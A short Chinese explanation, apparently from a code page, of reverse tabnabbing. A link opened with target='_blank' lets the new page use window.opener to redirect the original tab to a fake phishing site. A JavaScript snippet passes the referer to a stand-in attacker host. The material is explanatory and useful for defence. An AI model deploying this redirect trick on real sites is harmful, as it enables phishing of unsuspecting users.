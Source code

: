 
在你的网站 https://a.com 上存在一个链接：
 ```html
<a href="https://b.com" target="_blank">进入一个“邪恶”的网站</a>
```

用户点击了这个链接，在新的标签页打开了这个网站。  
这个网站可以通过 HTTP Header 中的 Referer 属性来判断用户的来源。  
并且，这个网站上包含着类似于这样的 JavaScript 代码：
```js
const url = encodeURIComponent('{{header.referer}}');
window.opener.location.replace('https://a.fake.site/?' + url);
```

此时，用户在继续浏览这个新的标签页，而原来的网站所在的标签页此时已经被导航到了 https://a.fake.site/?https%3A%2F%2Fexample.com%2F。  


恶意网站 https://a.fake.site 根据 Query String 来伪造一个足以欺骗用户的页面，并展示出来（期间还可以做一次跳转，使得浏览器的地址栏更具有迷惑性）。  


用户关闭 https://an.evil.site 的标签页，回到原来的网站………………已经回不去了  
